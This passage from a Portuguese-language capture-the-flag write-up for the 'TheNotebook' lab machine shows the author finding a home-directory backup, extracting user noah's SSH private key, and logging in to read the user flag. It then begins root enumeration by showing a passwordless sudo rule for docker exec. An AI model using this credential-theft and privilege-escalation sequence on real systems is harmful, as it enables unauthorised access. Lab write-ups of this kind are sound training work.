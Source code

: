 ```bash
www-data@thenotebook:/var/backups$ ls -la
total 696
drwxr-xr-x  2 root root     4096 Jun 11 06:26 .
drwxr-xr-x 14 root root     4096 Feb 12 06:52 ..
-rw-r--r--  1 root root    51200 Jun 11 06:25 alternatives.tar.0
-rw-r--r--  1 root root    33252 Feb 24 08:53 apt.extended_states.0
-rw-r--r--  1 root root     3609 Feb 23 08:58 apt.extended_states.1.gz
-rw-r--r--  1 root root     3621 Feb 12 06:52 apt.extended_states.2.gz
-rw-r--r--  1 root root      437 Feb 12 06:17 dpkg.diversions.0
-rw-r--r--  1 root root      172 Feb 12 06:52 dpkg.statoverride.0
-rw-r--r--  1 root root   571460 Feb 24 08:53 dpkg.status.0
-rw-------  1 root root      693 Feb 17 13:18 group.bak
-rw-------  1 root shadow    575 Feb 17 13:18 gshadow.bak
-rw-r--r--  1 root root     4373 Feb 17 09:02 home.tar.gz
-rw-------  1 root root     1555 Feb 12 06:24 passwd.bak
-rw-------  1 root shadow   1024 Feb 12 07:33 shadow.bak
```

Ao extrair o conteúdo deste arquivo, notado que temos algumas informações importantes que vão nos ajudar a obter acesso com a conta do usuário `noah`, sendo este um backup de seu home directory.

```bash
$ tar -xzvf home.tar.gz
home/
home/noah/
home/noah/.bash_logout
home/noah/.cache/
home/noah/.cache/motd.legal-displayed
home/noah/.gnupg/
home/noah/.gnupg/private-keys-v1.d/
home/noah/.bashrc
home/noah/.profile
home/noah/.ssh/
home/noah/.ssh/id_rsa
home/noah/.ssh/authorized_keys
home/noah/.ssh/id_rsa.pub
```

Executando o comando abaixo, com o arquivo obtido do backup, foi possível conectar-se via ssh com a conta `noah` e obter a flag de user

```bash
$ ssh -i id_rsa noah@10.10.10.230
noah@thenotebook:~$ cat user.txt
<redacted>
```

## Root flag

Como de costume, antes de refazer a enumeração com `linenum.sh`, executado o comando `sudo -l` na máquina, o que retornou o seguinte conteúdo:

```bash
noah@thenotebook:~$ sudo -l
Matching Defaults entries for noah on thenotebook:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User noah may run the following commands on thenotebook:
    (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
```
